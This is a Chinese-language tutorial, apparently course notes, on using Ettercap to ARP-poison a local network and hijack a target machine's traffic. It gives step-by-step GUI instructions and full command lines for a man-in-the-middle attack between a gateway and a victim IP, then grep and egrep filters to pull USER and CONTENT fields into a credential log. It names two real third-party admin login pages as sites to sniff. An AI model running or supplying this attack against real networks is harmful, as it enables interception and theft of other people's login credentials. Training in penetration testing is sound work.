


# ARP-Ettercap劫持用户流量

## 一.ettercap 工具介绍

项目官网：http://ettercap.github.io/ettercap/index.html

EtterCap是一个基于ARP地址欺骗方式的网络嗅探工具，主要适用于交换局域网络。借助于EtterCap嗅探软件，渗透测试人员可以检测网络内明文数据通讯的安全性，及时采取措施，避免敏感的用户名/密码等数据以明文的方式进行传输。

ettercap几乎是每个渗透测试人员必备的工具之一。

## 二.ARP截获用户信息攻击步骤

#### 1.启动ettercap

```
ettercap -G
```

#### **2.点击右上角的对勾开始扫描**

并且勾选sniffing at startup，这样代表开启嗅探流量，那么靶机被进行arp攻击，也能够上网，但是网络流量会被窃取。

注意网卡要重新选择eth0,否则可能出现ettercap打不开的情况。

	

#### **3.点击左上角查看主机列表**

			

#### **4.选择网关 点击底部的 Add to Target 1**

		

#### **5.选择攻击靶机加入到target2**

		

#### **6.点击右上角攻击菜单，选择ARP攻击**

	

通过小横杠中的target菜单项，可以查看是否加入target成功。

	

#### **7.点击ok发起攻击**

点击上面的小圆圈，选择arp攻击，然后点击ok

		

#### 8.查看此时靶机的arp列表

查看是否网关的mac地址，变成了攻击机的mac地址

```
arp -a|findstr 192.168.15.2
```

#### 9.查看kali的mac地址

```
ip a
```

#### **10.靶机登录网站**

```
http://www.kangda.cn/#/user/login?redirect=http%3A%2F%2Fwww.kangda.cn%2F%23%2F
http://vmims.eguagua.cn/#/Login
```

随便找一个管理后台网站登陆

	

#### **11.截获用户流量，获取账号密码**

		

#### **12.停止攻击**

	

## 三.Ettercap 软件功能介绍

注意ettercap无法捕获https流量包，只能捕获http的。

#### **1.启动界面**

	

Sniffing at startup :开启嗅探模式

Primary interface :选择网卡

Bridged sniffing :是否开启桥接模式

Bridged interface :桥接模式下的网卡

配置完成后，我们点上方的✔即可完成配置。

	

#### **2.中间人攻击菜单**

	

ARP poisoning :ARP攻击

DNP poisoning :DNP攻击

ICMP redirect :icmp重定向

Port stealing :端口欺骗

DHCP spoofing :DHCP欺骗

stop MITM :停止攻击

SSL intercept :ssl嗅探

#### **3.更多选项**

	

Targets:攻击列表

Hosts：显示主机列表

Filters：载入二进制脚本

Plugins：插件

Logging:日志

#### **4.hosts选项**

	

Hosts list：扫描到的主机列表

Enable ipv6 scan：扫描ipv6地址

Scan for hosts：扫描主机列表

load hosts form file：从外部文件载入主机列表

Save hosts to file：保存主机列表到文件

#### **5.Targets选项**

	

Current targets：正在攻击的列表

Select targets:：选择攻击列表

Portocol：攻击协议

Reverse matching：匹配规则

Wipe targets：擦除攻击

#### **6.View选项**

	

Connections：连接信息

Profiles：IP地址信息

Statistics：统计信息

## 四.命令行运行Ettercap

#### **1.运行命令讲解**

```
ettercap –i –eth0 –Tq –M arp:remote/ip(host)//net gatemask/ >>b.txt
T：指的是text文本模式
q：指的是安静模式执行这个命令，会清理掉攻击的信息，页面看起来清爽很多。
i：后面跟的是连接局域网的网卡
M：后面跟的是指定使用arp的方式
>>：输出文件
```

#### **2.攻击命令**

```
没有-q，不是安静模式，会一直跳各种信息，并且也没有保存输出内容。
注意第一个ip是网关，第二个是靶机ip
ettercap -T -i eth0  -M arp:remote /192.168.15.2// /192.168.15.100// 
其中-l参数是ettercap自带用于指定输出内容到日志中，但是输出的日志信息格式不好，难以看到有效信息。
ettercap -Tq -l a.log -i eth0  -M arp:remote /192.168.15.2// /192.168.15.100// 
#使用管道符，把输出结果放到指定文件，输出格式良好，易于观看
ettercap -Tq -i eth0  -M arp:remote /192.168.15.2// /192.168.15.100// >>b.txt
```

	

随便访问一个网站，输入账号密码。查看b.txt文件，可以看到网络流量信息。

	

#### **3.靶机登录后台网站**

```
http://www.kangda.cn/#/user/login?redirect=http%3A%2F%2Fwww.kangda.cn%2F%23%2F
http://vmims.eguagua.cn/#/Login
```

#### **4.查看攻击界面日志**

```
tail -f b.txt

停止查看：
CTRL+C
```

#### **5.过滤无用信息，只查看用户的登录信息**

```
tail -f b.txt | grep "USER" 
或者
tail -f b.txt | grep "CONTENT" 
或者
egrep能使用正则表达式，可以查看user和content的关键字查询
tail -f b.txt | egrep "USER|CONTENT"
```

#### **6.停止ARP攻击**

```
CTRL+C
```

#### **7.分析日志**

```
cat b.txt
```

#### **8.筛选用户的登录信息**

```
cat b.txt | grep "USER" 
或者
cat b.txt | grep "CONTENT" 
或者
cat b.txt | egrep "USER|CONTENT"
```

可以使用egrep筛选出有用的信息。

	

#### 9.收集保存用户信息文件

该命令就是把筛选出的有效信息，保存到arp.log文件中。

```
cat -n  b.txt | egrep "USER|CONTENT" >arp.log
-n:添加行号
egrep：过滤规则
>:输出文件
```

## 五：课堂小结

请查看：ARP-Ettercap劫持用户流量.xmind

